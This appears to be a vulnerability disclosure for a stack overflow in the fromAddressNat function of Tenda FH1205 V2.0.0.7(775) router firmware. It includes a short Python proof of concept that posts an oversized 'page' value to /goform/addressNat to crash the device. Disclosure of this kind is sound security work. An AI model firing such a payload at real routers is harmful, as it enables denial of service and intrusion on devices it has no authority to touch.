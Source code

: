 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775) 

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v3` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `page` can trigger this security vulnerability.

![image-20240319225157752](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225157752.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320103827325](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320103827325.png)
